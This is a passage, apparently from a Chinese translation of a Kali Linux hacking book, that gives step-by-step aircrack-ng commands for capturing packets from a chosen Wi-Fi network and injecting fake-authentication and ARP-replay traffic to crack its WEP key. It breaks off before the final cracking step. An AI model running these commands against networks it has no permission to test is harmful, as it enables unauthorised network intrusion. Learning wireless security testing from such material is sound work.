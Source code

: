 以下步骤演示了 Aircrack：

1.  我们输入`airmon-ng`命令，以检查我们的卡是否被 Kali 检测到：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/4ba756bd-221c-4e3e-8d93-90e01b3ca948.png)

1.  接下来，我们需要使用以下命令将我们的适配器设置为监视模式：

```
 airmon-ng start wlan0mon 
```

以下屏幕截图显示了前面命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/83c25089-ab96-4ed4-8159-abe046621744.png)

1.  现在，为了查看附近运行的路由器，我们使用以下命令：

```
 airodump-ng wlan0mon
```

以下屏幕截图显示了前面命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/5741911a-9894-42e4-9926-73e2911af7ed.png)

1.  在这里，我们注意到我们想要破解的网络的`BSSID`；在我们的例子中，它是`B8:C1:A2:07:BC:F1`，频道号是`9`。我们通过按*Ctrl* + *C*停止该过程，并保持窗口打开。

1.  现在我们使用`airodump-ng`捕获数据包，并使用`-w`开关将这些数据包写入文件：

```
 airodump-ng -w packets -c 9 --bssid B8:C1:A2:07:BC:F1 wlan0mon
```

以下屏幕截图显示了前面命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/728e79cd-1cb3-4407-bfd9-5d5bf20806bc.png)

1.  现在我们需要观察信标和数据列；这些数字从`0`开始，并随着数据包在路由器和其他设备之间传递而增加。我们至少需要 20,000 个初始化向量才能成功破解**有线等效隐私**（**WEP**）密码：

1.  为了加快进程，我们打开另一个终端窗口并运行`aireplay-ng`，并使用以下命令执行伪身份验证：

```
 aireplay-ng -1 0 -e <AP ESSID> -a <AP MAC> -h <OUR MAC> wlan0mon 
       {fake authentication}
```

以下屏幕截图显示了前面命令的示例：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/6d610a66-b5fb-4a61-8029-48b325d8517e.png)

1.  现在让我们使用以下命令进行 ARP 数据包重放：

```
 aireplay-ng -3 -b BSSID wlan0mon
```

以下屏幕截图显示了前面命令的示例：
